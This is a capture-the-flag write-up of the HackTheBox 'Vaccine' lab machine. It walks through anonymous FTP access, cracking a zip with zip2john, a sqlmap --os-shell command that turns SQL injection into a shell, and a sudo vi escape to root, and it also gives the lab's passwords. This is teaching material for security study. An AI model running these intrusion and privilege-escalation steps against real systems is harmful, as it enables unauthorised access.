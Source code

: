 ```yaml
---
title: "Vaccine"
description: A WRIETUP ON THE MACHINE VACCINE from hackthebox starting point tier2 level
date: 2024-09-25
draft: false # this section allows the post to be published and be public, is it is set to true the post will not be published.
summary: "Some medicine for you." # Here you can write a small summary of the post if needed
tags: [HTB, Very Easy ]
categories: [Tier2, Starting point]
---
```

# Introduction

![Untitled.jpg](Untitled.jpg)

## Task 1

Besides SSH and HTTP, what other service is hosted on this box?

![image.png](image.png)

FTP

## Task 2

This service can be configured to allow login with any password for specific username. What is that username?

![image.png](image%201.png)

anonymous

## Task 3

What is the name of the file downloaded over this service?

![image.png](image%202.png)

backup.zip

## Task 4

What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?

![image.png](image%203.png)

As seen above we have been able to find the password for the zipped folder, now we can be able to unlock the folder in order to find the contents of the folder

```bash
zip2john
```

## Task 5

What is the password for the admin user on the website?

![image.png](image%204.png)

![image.png](image%205.png)

qwerty789

## Task 6

What option can be passed to sqlmap to try to get command execution via the sql injection?

![image.png](image%206.png)

—os-shell

we shall try to get a shell from the machine using sqlmap to get our foothold into the machine as shown below

![image.png](image%207.png)

```bash
sqlmap -url="http://[IP]/dashboard.php?search=new" -cookie="PHPSESSID=snduj64lg29ger6doubiqid824" --os-shell

```

and we have our foothold into the machine.

![image.png](image%208.png)

## Task 7

What program can the postgres user run as root using sudo?

For this section we had to run the following command 

```bash
sudo -l
```

but we are required to input password for the postgres user in order to get the output, hence I dug around and found the password in the file below.

```bash
/var/www/html/dashboard.php

password=P@s5w0rd!

```

Since now we have our password for the postgres user, we can login through ssh

![image.png](image%209.png)

vi

now we can look at [gtfobins](https://gtfobins.github.io/) on how we can exploit vi to get a root shell

![image.png](image%2010.png)

after logging in, we were able to get our user flag.

![image.png](image%2011.png)

now to root the machine and pawn it, we had to exploit vi using this procedure form gtfobins.

```bash
vi
:set shell=/bin/sh
:shell
```

![image.png](image%2012.png)

and we have pawned our machine.